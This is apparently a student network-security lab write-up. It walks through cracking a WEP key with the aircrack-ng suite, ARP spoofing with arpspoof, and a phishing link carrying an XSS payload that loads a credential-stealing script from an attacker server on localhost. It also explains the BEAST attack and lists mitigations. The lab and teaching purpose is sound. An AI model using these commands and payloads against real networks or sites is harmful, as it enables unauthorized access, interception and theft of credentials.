

# IT-Security 2019
# <11012488_Kartikey_Tripathi>-Week2_Network_Secruity

## Exercise 1: Secure a wireless network

Here are the steps to secure a wireless network.

### Step 1 Install airmon-ng

Airmon-ng is included in the aircrack-ng package and is used to enable and disable monitor mode on wireless interface. it may also be used to go back form monitor mode to managed mode.

### Command -
`sudo apt-get install airmon-ng`

 

### Step 2 Check process that can cause trouble -

### Command -
`sudo airmon-ng start wlo1`

 

### Step 3 Installing net-tools -

The Net-tools package contains a collection of programs which form the base of Linux networking.

### Command -

`sudo apt-get install net-tools`

 

### Step 4 Installing macchanger -

### Command -

`sudo apt-get install macchanger`

 

 

When we try do perform some attack we need to change or hide our mac address to be anonymous, for this job we use macchanger, with this tool we can change our mac address of any Ethernet or wireless networks.

### Step 5 Stop Interfaces

Stop interface for [Phy0]wlo1 on [Phy0]wlo1mon

### Command -

`sudo ifconfig wlo1mon down`

Here we are stoping our interface t=for changing our mac ID.

 

### Step 6 Change MAC ID 

### Command -

`sudo macchanger wlo1mon`

Here we are chamging our Mac address.

 

### Step 7 start interface 

### Command -

` sudo ifconfig wlo1mon up`

After changing our Mac ID we are our agian starting our interface.

### Step 8 start monitoring 

### Command -

`sudo airodump-ng wlo1mon`

Here we will get the list of the networks which our system can connect with.

### Step 9 Identifying the security -

The WEP with the assigned name to_break_educational has BSSID E8:94:F6:F2:F1:E1. The security being used by the network is WEP 40/128-bit Key (Hex or ASCII) (discovered in the network details):
The WEP network uses the Channel 6.

### Step 10 start airdump -

### Command -

`sudo airodump-ng -c 6 -w to_break_educational --bssid E8:94:F6:F2:F1:E1 wlo1mon`

Airodump-ng is used for packet capturing of raw 802.11 frames and is particularly suitable for collecting WEP IVs (Initialization Vector) for the intent of using them with aircrack-ng.

### Step 11 creating beacon -

### Command -

Here we are creating a beacon file, Beacon is Number of announcements packets sent by the AP.

### Step 12 Capturing packages - 
### Command -

`sudo aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF -b E8:94:F6:F2:F1:E1 -h 22:33:44:55:66:77 wlo1mon`

 Aireplay-ng is used to inject frames. Its main function is to generatte traffic for the later use use in aircrack-ng for cracking the WEP and WPA-PSK keys.

### Step 13 air attack -

### Command -

`sudo aircrack-ng to_break_educational-01.cap`

Aircrack-ng is used for password cracking, it uses the statistical techniques to crack the WEP and dictionary cracks for WPA and WPA2 after capturing the WPA handshake.

Here we will get the password key of the Network

### CAP file -

CAP is a file extension for session capture file format used by Telix. CAP files contain all incoming network data packets from the indicated port after being captured on command by the Telix program.

Connect to the Network -

Here you can see that after getting the password we are connected tho the network.

## Way to secure the Network -

There are many ways by which you can secure a compromised network some which are as follows - [2]

1. Isolation -

    Isolate the device from the network means disconnect all the Ethernet cables, turn off the Wi-Fi at the hardware level, disconnect all the devices from the network.

    Change the encryption key fron all the access point that host the wireless network with the same key.

    Change the administration password of the device from everywhere it is used.

2. Examination - 

    Find the vulnerability in the network from which attacker got into and fix that vulnerability. 

    Get clues from web interface by connecting the network from an up to date machnine and browser.

    Finding the the extent of compromise by looking into the port forwarding entries by which attacker may have forward some ports to the internal machine to be able to connect to them.

3. Reinstall Firmware -

    Check the manufacturer's website for the latest firmware update. Also consider the laternative firmwares if it is better then the official firmware. 

    Reinstall the firmware form the bootloader itself. In the the reisk is very negligible.

4. Change Security Protocols -

    Change the security protocols in the system. It can be done by creating a secured network, installing VPN.

    Check the TCP/IP configuration and hosts file for rogue entries.

## Exercise 2: Man in the middle attack

Here we are implementing three ways for doing Man in the middle attack -

## Man in the Middle attack ARP Poisioning 

### Step -1

By this we are routing the packets to the current machine, means all the dpackets which are going to the router will also be delivered to the current address.[3]

### Command -

Mode change to super user 

`echo 1 > /proc/sys/net/ipv4/ip_forward`

Concatenate 1 to ip_forward

`cat /proc/sys/net/ipv4/ip_forward`

### Step - 2

we are using dsniff Library to perform the packet sniffing and spoofing Command

### Command -

 `sudo apt-get install dsniff`

### Command -

`sudo arpspoof -i wlo1 -t 192.168.0.108 192.168.0.1`

Device: wlo1.
Victim IP address: 192.168.0.108.
Router IP address: 192.168.0.1

Output -

## Man in the middle attack in Java Language -

### Approaches -
    
    1. Create atleast 2 users who will perform communication
    2. Create Man in the Middle (Attacker)

### Create atleast 2 user who will communicate

    We will use the names of the Matrix characters as names of the Java Program for the educational programming and will cite them :)
        1. Neo - will be 1 user
        2. Morpheus - will be another user
        3. Trinity - is also a user who can communicate

### Create Man In The Middle (Attacker)

    Agent Smith
        1. Will be the attacker who will perform Man In the Middle
        2. He silently interepts the communication between the Matrix Users

### Reference:

    1. The Matrix: Movies. (n.d.). Retrieved from https://www.warnerbros.com/movies/matrix/.

## Man in the middle attack using JavaScript -

### Install yarn and dependencies through yarn 

### Command -

`sudo apt-get install yarn`
`install yarn`

## Lite-Server

Upon executing `yarn install` command, it installs the `lite-server` package/library in the project (node_modules).

***Lite-Server*** as the name suggests is the very light web server with minimum execution facility, purely meant to display web pages.

## Configuration

***package.json*** consists of project management and tunning configuration. We have defined two lite-server for our purpose for attacker and victim. 

## Execute Hacker 'Lite-Server'

We have configured the project (in package.json) to execute the lite-server on port 3000, for the attacker, using command `yarn run lite-server` using the `bs-config.json`.

Screenshot:  

## Execute Victim 'Lite-Server'

We have configured the project (in package.json) to execute the lite-server on port 4000, for the attacker, using command `yarn run lite-server-victim` using the `bs-config-victim.json`.

Screenshot:  

## Set the bait for Victim

We will set the bait for the Victim by emailing the victim with the chance to win prize on the legitimate webserver domain by changing the values in the parameter. The legitimate webserver running for the domain localhost:4000. 

URL/Link:  
`http://localhost:4000/?Name=John%20Doe%20you%20have%20Big%20Bonanza%20Offer:%20%3Cinput%20type=%27button%27%20title=%27Big%20Bonanza%20Offer%27%20value=%27Scratch%20Card%27%20onclick=%22if(document.getElementById(%27SomeFlag%27)==undefined)%20{%20maliciousScript%20=%20document.createElement(%27script%27);%20maliciousScript.src%20=%20%27http://localhost:3000/ManInTheMiddelAttack.js%27;%20document.body.appendChild(maliciousScript);%20someFlag%20=%20document.createElement(%27SomeFlag%27);%20someFlag.id%20=%20%27SomeFlag%27;%20document.body.appendChild(someFlag);%20alert(%27You%20will%20get%20an%20email%20notification%20for%20the%20offer%27);%20setTimeout(%20function()%20{%20injectManInTheMiddleScript();%20}%20,%201000);%20}%20%22%20/%3E`

URL Explanation:  
- We have not changed the domain name at all. 
- The hack is place as the value for the parameter 'Name'.
- The value of the 'Name' Parameter is:
    * John Doe you have Big Bonanza Offer: <input type='button' title='Big Bonanza Offer' value='Scratch Card' onclick="if(document.getElementById('SomeFlag')==undefined) { maliciousScript = document.createElement('script'); maliciousScript.src = 'http://localhost:3000/ManInTheMiddelAttack.js'; document.body.appendChild(maliciousScript); someFlag = document.createElement('SomeFlag'); someFlag.id = 'SomeFlag'; document.body.appendChild(someFlag); alert('You will get an email notification for the offer'); setTimeout( function() { injectManInTheMiddleScript(); } , 1000); } " />
- The value gets embedded as an innerHtml within the page performing the exploit as follows:  
  
- Upon clicking the ***bait*** link will gets a message:  
    * Behind the scene a Malicious javascript file get attached to the web page  
        
        
    * The login button click functionality is replaced by a function Malicious javascript, which executes the login button click along with sending the secret detail to the other link or url  
    * Loading Script:  
        
    * Malicious Script by clicking on the bait button:  
        
    * Malicious Script  
      ;
    * Execution of Legit Code along with Malicious Code  
      

## Prevention of Man in the middle attack -

1. Strong WEP/WAP Encryption on Access Points -It prevents other unwanted user to join the network by just being nearby. If there is a weak encryption any        attacker can do a brute-force attack and can make his way into the network. A strong encryption leads to a safer wireless network.

2. Strong Router Login Credentials - It is suggested that user should maintain a strong password to their Wifi along with this user should change the default     credential of their router home page, so no attacker can access their router home page and make thier DNS servers to his malicious servers or other than       this effect the router with any malicious software.

3. Virtual Private Network - It can be used to create a secure environment to share important information in a local network. They use key-based encryption to    create a subnet for secure communication. After all this if a attacker manages to get into the secure local network, he will never be able to decrypt the      key used for the encryption of the traffic in the VPN.

4. Force HTTPS - Using the public-private key exchange HTTPS can be used to securely communicate over HTTP. This will prevent any hacker to use the data which    he may be sniffing. Users can install plugins to their browsers to enforce the HTTPS on request.

5. Public Key Pair Based Authentication - This type of authentication like RSA can be used in various layers of the stack to ensure whether the things you are    communicating with are actually the things you want to be communicating with.

6. Use Latest TLS - If your website is using SSL, make sure you have disabled insecure SSL/TLS protocols. You should only have enabled TLS 1.1 and TLS 1.2.

7. Never execute any long URL without reading them correctly even though the domain is legit

8. Web developers should prohibit the user or innerHTML to display HTML. As we have seen it could be hacked in real life.

## Exercise 3: BEAST SLL vulnerability

### What is BEAST SLL 

BEAST or Browser Exploit Against SSL/TLS is a vulnerability. This attack is made against the confidentitality of HTTPS connection in a very small or negligible amount of time. It means it provides a wat to get the unencrypted plaiintext from an encrypted session. 

This attack occurs when a block cipher is in use. In this attack an attacker is able to find the initialisation Vector used as a part of the encryption process meaning that if a repeating pattern is evident in the plaintex then it will be evident in the ciphertext.

For this an attacker must be able to man-in-the-middle a connection and there must be a way of generating additional traffic such as an SOP bypass or a cross-site scripting vulnerability, the user must have an older web browser as the new browsers have protection protocols in it for this issue. As all these conditions are fullfiled and session tokens are protected against XSS through a mechanism such as HTTP the only cookies than an attacker can exploit BEAST to gain access to the protected token.

### How attack can take place -

BEAST have 3 major conditions for the attack -

1. injection of JavaScript or applet into the same origin of the web site.
2. there must be the possiblity of connection Network sniffing.
3. A vulnerable version of SSL must be present with a block cipher.

 [1]

Fig. 1 (Graphical representation of the BEAST attack)

If we can manage to inject content within the same origin policy, there are lots of other attacks an attacker can perform like he can access the page content, can perform any action that a victim can do, can steal the cookie and hijack the session, he can even display new login promt and make the user to send the private credentials to him. However even this there are number of ways by whuch a developer can increase the complexity or mitigate some these attacks, adding an additional layer of protection, for example if the developer set the HTTPOnly property that can be set on cookies, with this this property the browser will not allow applets or JavaScript to gain access to the cookie value. This can prevent the session hacking attack.

## How to prevent the attack - 

1. Upgrade -
It may be possible to upgrade all the user servers to the newest product that support on their systems. Upgrade the server to providde support of TLS1.1 and 1.2. also a user can make sure that in any of his server there is nor browser that dosent support TLS 1.1 or 1.2 enabled. 

2. Test and Fix -

There are other ways to inject the BEAST agent into the browser. Some of these may utlilise slaws in the application so it is important to ensure a high security standard to be employed.

Ex -
one time password.
A secure HTTPS connection.
Regeneration of a new and unique cookie value per session.
Session timeout set to a sensible time and functioning correctly.
Transferabe session prevention – It prevent the usage of a session token from a different IP and different user agent.

# References forwarding

1. https://www.rapid7.com/fundamentals/man-in-the-middle-attacks/
2. https://security.stackexchange.com/questions/138418/how-do-i-deal-with-a-compromised-network-device
3. https://unix.stackexchange.com/questions/14056/what-is-kernel-ip-forwarding
4. https://www.indusface.com/blog/protect-arp-poisoning/
